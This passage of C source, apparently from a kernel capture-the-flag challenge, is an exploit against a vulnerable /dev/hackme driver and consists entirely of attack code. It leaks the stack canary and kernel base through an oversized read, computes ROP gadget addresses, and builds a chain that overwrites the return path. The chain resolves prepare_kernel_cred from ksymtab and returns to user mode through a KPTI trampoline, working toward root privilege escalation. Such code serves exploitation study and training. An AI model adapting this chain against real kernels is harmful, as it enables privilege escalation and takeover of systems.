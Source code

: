 ```c
}

void leak1(){
         __asm__(
                "mov tmp_store, rax;"
        );
        prepare_kernel_cred = ksymtab_prepare_kernel_cred + (int)tmp_store;
        printf("[*] prepare_kernel_cred: %p\n", prepare_kernel_cred);
        get_addr2();
}

void get_addr(){
        char buf[0x150];
        memset(buf, '\x00', 0x150);
        unsigned long long *ropchain = (long long unsigned *)buf;
        int i = 16;
        ropchain[i++] = canary;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = gadget2;
        ropchain[i++] = ksymtab_prepare_kernel_cred - 0x10;
        ropchain[i++] = gadget3;
        ropchain[i++] = 0;
        ropchain[i++] = kpti_gadget;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = leak1;
        ropchain[i++] = tf.cs;
        ropchain[i++] = tf.eflags;
        ropchain[i++] = tf.rsp;
        ropchain[i++] = tf.ss;
        printf("[*] Never reach! try to read from kernel, return %ld \n", write(fd, buf, 0x150));
}

int main()
{
        fd = open("/dev/hackme", O_RDWR);
        printf("[+] open ko, return %d \n", fd);
        char buf[0x140];
        printf("[*] try to read from kernel, return %ld \n", read(fd, buf, 0x140));
        // long long unsigned base = u64(buf + 0xd8) - 0x569977;
        for(int i=0; i<0x140; i+=8){
        //      printf("[0x%x] %llx \n", i, u64(buf + i));
        }
        canary = u64(buf + 0x10);
        base = u64(buf + 0x130) - 0xa157;
        gadget1 = base + 0x6370; //  pop rdi; ret;
        gadget2 = base + 0x4d11; //  pop rax; ret;
        gadget3 = base + 0x4aad; //  mov rax, qword ptr [rax + 0x10]; pop rbp; ret;
        ksymtab_commit_creds = base + 0xf87d90;
        kpti_gadget = base + 0x200f10 + 0x16;
        ksymtab_prepare_kernel_cred = base + 0xf8d4fc;
        printf("[*] kernel base is %llx\n", base);
        init_tf_work();
        get_addr();
        return 1;
}
```

